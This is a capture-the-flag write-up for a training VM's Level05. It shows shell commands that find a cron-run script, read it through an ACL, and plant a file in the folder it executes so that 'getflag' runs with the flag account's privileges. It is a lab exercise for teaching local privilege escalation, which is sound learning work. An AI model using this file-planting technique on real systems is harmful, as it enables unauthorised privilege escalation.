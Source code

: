 # Level05

## Exploring the computer

```bash 
$ ls -la
$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile

```

Nothing interesting. Let's go back to what we did in the first exercice. 

```bash 
$ find / -user level05 2>/dev/null
[Many results so probably not here]
```

```bash
$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```bash
$ file /usr/sbin/openarenaserver 
/usr/sbin/openarenaserver: POSIX shell script, ASCII text executable
```

```bash
$ ls -l /usr/sbin/openarenaserver 
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

The +1 informs us that an ACL(Access Control List) rule is defined, let's see what it allows us to do.

## Learning more about the openarenaserver

```bash
$ getfacl /usr/sbin/openarenaserver
# file: usr/sbin/openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```

We cannot read the file normally but thanks to the ACL rule we can. 

```bash
$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

```

We have a POSIX shell that executes every file in folder /opt/openarenaserver and deletes them after.

Let's try to add a file to the folder. 

```bash
$ echo "getflag" > /opt/openarenaserver/test.sh
$ ls /opt/openarenaserver/
test.sh
```

It worked our file is here. 

```bash
$ /usr/sbin/openarenaserver
-bash: /usr/sbin/openarenaserver: Permission denied
```

We cannot excute the openarenaserver ourself, but after a certain period of time our file is gone. Maybe a CRON executed it.

```bash
$ ls /opt/openarenaserver/

```

## Getting the flag 

Let's right the output of getflag in a file so we can retrieve it after the cron executed it.

```bash
$ echo "getflag > /tmp/flagg" > /opt/openarenaserver/script.sh 
```

```bash
$ cat /tmp/flagg
Check flag.Here is your token : *******************
```
